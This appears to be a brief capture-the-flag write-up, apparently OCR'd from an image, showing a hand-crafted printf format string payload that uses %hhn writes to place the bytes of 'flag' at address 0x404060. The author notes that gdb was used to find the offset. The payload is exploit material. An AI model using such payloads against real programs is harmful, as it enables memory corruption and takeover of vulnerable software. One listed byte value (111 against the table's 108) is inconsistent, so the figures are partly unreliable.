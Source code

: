 0x404060

67    61     6c      66
103   97    108    102

0x404063 = 103
0x404062 = 97 
0x404061 = 111
0x404060  = 102

`%97x%20$hhn,%4x%21$hhn,%22$hhn,%4c%23$hhnZZZZZZZ\x62\x40\x40\x00\x00\x00\x00\x00\x60\x40\x40\x00\x00\x00\x00\x00\x63\x40\x40\x00\x00\x00\x00\x00\x61\x40\x40\x00\x00\x00\x00\x00`

I used gdb to find the offset then i manually crafted this format string
